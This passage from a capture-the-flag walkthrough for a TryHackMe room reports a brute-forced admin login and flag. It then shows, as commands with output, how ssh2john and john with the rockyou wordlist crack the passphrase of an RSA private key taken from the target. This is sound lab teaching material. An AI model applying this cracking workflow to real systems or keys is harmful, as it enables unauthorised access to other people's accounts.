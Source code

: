 Hydra found us the password.

Admin's creds: `admin:xavier`

## Web Flag

After logging in to admin panel we are shown the web flag:

<p align="center"><img src="./files/webFlag.png"></p>

Web flag: `THM{brut3_f0rce_is_e4sy}`

## User Flag

There is also a link to an RSA private key. I saved it in "id_rsa". Unfortunately we need a password to use it. First we need to change it to a format which can be crackable by `john`. There is an additional tool called `ssh2john` which converts the private key to a format that john can crack it. If you don't have it, you can get it [here](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py). After changing the format, we run john to crack it using rockyou wordlist.

~~~                             
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Brute_It/files]
└─$ locate ssh2john
/usr/share/john/ssh2john.py
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Brute_It/files]
└─$ /usr/share/john/ssh2john.py id_rsa > rsa_hash
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Brute_It/files]
└─$ john rsa_hash --wordlist=/usr/share/wordlists/rockyou.txt                                
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)
Warning: Only 1 candidate left, minimum 4 needed for performance.
1g 0:00:00:05 DONE (2021-09-25 06:07) 0.1808g/s 2593Kp/s 2593Kc/s 2593KC/s *7¡Vamos!
Session completed
~~~

